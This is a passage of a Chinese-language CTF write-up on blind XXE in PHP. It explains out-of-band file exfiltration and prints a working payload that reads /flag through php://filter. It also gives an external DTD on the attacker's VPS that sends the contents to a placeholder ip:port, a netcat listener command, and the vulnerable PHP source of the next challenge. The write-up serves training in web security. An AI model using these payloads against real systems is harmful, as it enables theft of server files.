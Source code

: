 我们来观察这道题和上题的区别，同样存在xml文档的加载，但是却没有了echo进行回显，所以这道题怎么做

我们考虑flag外带，上我们自己的服务器将内容带出

分为两个部分：一个是直接让我们的题目服务器解析的xml文档语句，一个是我们存放在我们自己的vps上的外部dtd文档，然后在题目服务器xml解析时对我们的vps发起请求，然后在vps中将获得的内容传输到端口监听中

1. 使用`php://filter` 获取目标文件内容，然后将内容以http请求的方式发送到我们的vps上

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- 格式约束-->
<!DOCTYPE updateProfile [
        <!--使用伪协议读取题目服务器中的文件-->
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag"> 
        <!--写在我们服务器的dtd文件-->
    <!ENTITY % dtds SYSTEM "http://xxx/test/test.dtd">
        <!--解析dtd的时候把外部的dtd文件放过来-->
    %dtds;
]>
        
<!--补全形式-->      
<root>
1
</root>
```

2.放在我们服务器上的内容

```xml
<!ENTITY % dtd "<!ENTITY &#x25; showflag SYSTEM 'http://ip:port/%file;'>">
<!--evil.dtd的内容，内部的%号要进行实体编码成&#x25;  相当于% showflag-->
%dtd;
%showflag;
```

首先在1中会解析%dtds 去调用2的内容

然后2的内容展示在面板上之后会触发2中%dtd的解析 将2中内层嵌套的语句加载到面板上

然后解析%showflag 去加载SYSTEM的语句，访问我们的vps，同时携带file获得的数据，其中%file获得已经在面板中1里面的请求。

注意！一定要注意 POST传输的数据里面一定不要和vps中的文件里面定义的变量重名。比如vps中设置的是dtd我们POST传输的时候需要dtds或者其他任意的。

然后再bp中POST传入payload

在自己服务器开启监听nc -lnvp port



### web375

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    

```
